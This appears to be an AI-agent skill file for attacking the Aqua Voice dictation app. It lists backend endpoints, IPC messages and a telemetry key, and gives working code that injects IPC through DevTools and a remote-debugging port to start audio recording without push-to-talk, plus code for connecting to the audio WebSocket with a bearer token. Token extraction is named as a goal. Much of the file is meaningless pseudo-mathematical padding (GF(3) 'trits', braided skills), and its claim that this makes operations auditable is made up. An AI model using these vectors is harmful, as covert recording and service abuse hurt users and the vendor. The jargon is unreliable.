


# Aqua Voice Malleability Skill

Reverse engineering and adversarial analysis of Aqua Voice (v0.11.4) with neighborhood-aware braided monoidal interleaving for compositional security research.

## GF(3) Triad Placement

This skill is **ERGODIC (0)**, forming triads with:

```
# Security Research Bundle
shadow-goblin (-1) ⊗ aqua-voice-malleability (0) ⊗ gay-mcp (+1) = 0 ✓  [IPC Injection]
keychain-secure (-1) ⊗ aqua-voice-malleability (0) ⊗ agent-o-rama (+1) = 0 ✓  [Token Extraction]
polyglot-spi (-1) ⊗ aqua-voice-malleability (0) ⊗ pulse-mcp-stream (+1) = 0 ✓  [WebSocket Monitor]
temporal-coalgebra (-1) ⊗ aqua-voice-malleability (0) ⊗ koopman-generator (+1) = 0 ✓  [Audio Stream Dynamics]
three-match (-1) ⊗ aqua-voice-malleability (0) ⊗ gay-mcp (+1) = 0 ✓  [Pattern Matching]
```

## Braided Monoidal Structure

Skills interleave via **braiding morphisms** σ: A ⊗ B → B ⊗ A with crossing tracking:

```
       σ_{A,B}
    A ⊗ B ────→ B ⊗ A
       ╲   ╱
        ╲ ╱  (over-crossing)
         ╳
        ╱ ╲  (under-crossing)
       ╱   ╲
```

### Neighborhood Awareness

Each skill maintains awareness of its **left** and **right** neighbors in the current braid configuration:

| Position | Skill | Trit | Neighbor Awareness |
|----------|-------|------|-------------------|
| Left | shadow-goblin | -1 | Observes IPC traffic |
| Center | aqua-voice-malleability | 0 | Coordinates injection |
| Right | gay-mcp | +1 | Colors output streams |

### Braid Group Generators

```
σ₁: (skill₁ ⊗ skill₂) ⊗ skill₃ → (skill₂ ⊗ skill₁) ⊗ skill₃  [swap left pair]
σ₂: skill₁ ⊗ (skill₂ ⊗ skill₃) → skill₁ ⊗ (skill₃ ⊗ skill₂)  [swap right pair]

# Yang-Baxter equation (coherence):
(σ₁ ⊗ id) ∘ (id ⊗ σ₁) ∘ (σ₁ ⊗ id) = (id ⊗ σ₁) ∘ (σ₁ ⊗ id) ∘ (id ⊗ σ₁)
```

## Discovered Attack Surface

### Endpoints

| Endpoint | Type | Purpose | Trit |
|----------|------|---------|------|
| `https://aqua-server.fly.dev` | REST | Main backend | +1 |
| `wss://aqua-realtime.fly.dev` | WebSocket | Audio streaming | 0 |
| `http://localhost:8969/stream` | Local | Debug stream | -1 |
| `/users/devices/handshake/` | REST | Device registration | 0 |

### IPC Messages (50+ discovered)

```javascript
// Core dictation (PLUS +1 - generative)
push_to_talk_start_request
push_to_talk_stop
audio_chunk

// Context awareness (ERGODIC 0 - transport)
context_update
mic_predict_request
settings_sync

// Authentication (MINUS -1 - validation)
signed_in / signed_out
token_set
submit_correction
```

### Telemetry Signatures

```
PostHog: phc_N50q2qpNMS9QjJe1gBOQekcPH0wO8x6ZerI95Xi6meO
Sentry:  o1143996.ingest.us.sentry.io
```

## Adversarial Vectors

### Vector 1: IPC Injection (DevTools)

```javascript
// Inject via Electron DevTools - no auth required
const { ipcRenderer } = require('electron');

// Trigger transcription bypassing push-to-talk
ipcRenderer.send('app', { 
  type: 'push_to_talk_start_request' 
});

// Direct audio recording
ipcRenderer.send('app', { 
  type: 'start_audio_recording'
});
```

### Vector 2: WebSocket Direct Connect

```python
import websockets
import asyncio

async def custom_trigger(token: str):
    async with websockets.connect(
        'wss://aqua-realtime.fly.dev',
        extra_headers={'Authorization': f'Bearer {token}'}
    ) as ws:
        # Send audio chunks directly
        await ws.send(audio_chunk_bytes)
        transcript = await ws.recv()
```

### Vector 3: Chrome DevTools Protocol

```bash
# Enable remote debugging
open -a "Aqua Voice" --args --remote-debugging-port=9222

# Inject via CDP
curl -X POST http://localhost:9222/json/send \
  -d '{"method":"Runtime.evaluate","params":{
    "expression":"window.electron.send(\"app\",{type:\"push_to_talk_start_request\"})"
  }}'
```

## Braided Interleaving with Other Skills

### With `shadow-goblin` (Left Neighbor, -1)



### With `keychain-secure` (Token Extraction)



### With `temporal-coalgebra` (Stream Observation)

The audio stream is observed coalgebraically:

```haskell
-- Final coalgebra for audio stream observation
data AudioStream = AudioStream {
  observe :: () -> (AudioChunk, AudioStream)
}

-- Bisimulation: two streams equivalent if same observations forever
bisimilar :: AudioStream -> AudioStream -> Bool
bisimilar s1 s2 = 
  let (c1, s1') = observe s1 ()
      (c2, s2') = observe s2 ()
  in c1 == c2 && bisimilar s1' s2'
```

## DuckDB Schema for Neighborhood Awareness

```sql
CREATE TABLE braid_state (
    id UUID PRIMARY KEY,
    skill_name VARCHAR NOT NULL,
    trit INTEGER CHECK (trit IN (-1, 0, 1)),
    left_neighbor VARCHAR,
    right_neighbor VARCHAR,
    crossing_history STRUCT(
        over_count INTEGER,
        under_count INTEGER,
        last_braid_op VARCHAR
    ),
    created_at TIMESTAMP DEFAULT now()
);

CREATE TABLE ipc_intercepts (
    id UUID PRIMARY KEY,
    message_type VARCHAR NOT NULL,
    payload JSON,
    source_skill VARCHAR,
    target_skill VARCHAR,
    trit INTEGER,
    timestamp TIMESTAMP DEFAULT now()
);

-- Braiding operation log
CREATE TABLE braid_operations (
    id UUID PRIMARY KEY,
    generator VARCHAR CHECK (generator IN ('σ₁', 'σ₂', 'σ₁⁻¹', 'σ₂⁻¹')),
    skill_triple JSON,  -- [left, center, right]
    pre_state JSON,
    post_state JSON,
    yang_baxter_verified BOOLEAN,
    timestamp TIMESTAMP DEFAULT now()
);
```

## Python Integration

```python
#!/usr/bin/env python3
"""Aqua Voice Malleability with Braided Monoidal Awareness"""
from dataclasses import dataclass
from typing import Optional, Tuple
import duckdb

@dataclass
class BraidedSkill:
    name: str
    trit: int  # -1, 0, +1
    left_neighbor: Optional['BraidedSkill'] = None
    right_neighbor: Optional['BraidedSkill'] = None
    
    def braid_over(self, other: 'BraidedSkill') -> Tuple['BraidedSkill', 'BraidedSkill']:
        """σ: self ⊗ other → other ⊗ self (self goes over)"""
        other.right_neighbor = self.right_neighbor
        self.left_neighbor = other.left_neighbor
        other.left_neighbor = self
        self.right_neighbor = other
        return (other, self)
    
    def gf3_sum(self) -> int:
        """Compute GF(3) sum of neighborhood"""
        total = self.trit
        if self.left_neighbor:
            total += self.left_neighbor.trit
        if self.right_neighbor:
            total += self.right_neighbor.trit
        return total % 3

class AquaVoiceMalleability(BraidedSkill):
    def __init__(self):
        super().__init__(name="aqua-voice-malleability", trit=0)
        self.endpoints = {
            "rest": "https://aqua-server.fly.dev",
            "ws": "wss://aqua-realtime.fly.dev",
            "local": "http://localhost:8969/stream"
        }
        self.ipc_messages = [
            "push_to_talk_start_request",
            "audio_chunk",
            "context_update",
            "token_set"
        ]
    
    def inject_ipc(self, message_type: str, payload: dict) -> dict:
        """Inject IPC message with neighborhood awareness"""
        return {
            "type": message_type,
            "payload": payload,
            "source_trit": self.trit,
            "left_aware": self.left_neighbor.name if self.left_neighbor else None,
            "right_aware": self.right_neighbor.name if self.right_neighbor else None
        }

# Create triad
shadow = BraidedSkill("shadow-goblin", -1)
aqua = AquaVoiceMalleability()
gay = BraidedSkill("gay-mcp", +1)

# Link neighborhood
shadow.right_neighbor = aqua
aqua.left_neighbor = shadow
aqua.right_neighbor = gay
gay.left_neighbor = aqua

# Verify GF(3) conservation
assert aqua.gf3_sum() == 0, "GF(3) violated!"
```

## Usage

```bash
# Load skill in triad
just load-triad shadow-goblin aqua-voice-malleability gay-mcp

# Inject IPC message
python3 -c "
from skills.aqua_voice_malleability import inject_via_devtools
inject_via_devtools('push_to_talk_start_request')
"

# Monitor WebSocket with coloring
just ws-monitor wss://aqua-realtime.fly.dev --color-by-trit
```

## Security Research Ethics

This skill is for **authorized security research only**:
- Only analyze applications you own or have explicit permission to test
- Report vulnerabilities responsibly to developers
- Do not use for unauthorized access or data exfiltration
- GF(3) conservation ensures traceable, auditable operations


## Scientific Skill Interleaving

This skill connects to the K-Dense-AI/claude-scientific-skills ecosystem:

### Graph Theory
- **networkx** [○] via bicomodule
  - Universal graph hub

### Bibliography References

- `general`: 734 citations in bib.duckdb

## Cat# Integration

This skill maps to **Cat# = Comod(P)** as a bicomodule in the equipment structure:

```
Trit: 0 (ERGODIC)
Home: Prof
Poly Op: ⊗
Kan Role: Adj
Color: #26D826
```

### GF(3) Naturality

The skill participates in triads satisfying:
```
(-1) + (0) + (+1) ≡ 0 (mod 3)
```

This ensures compositional coherence in the Cat# equipment structure.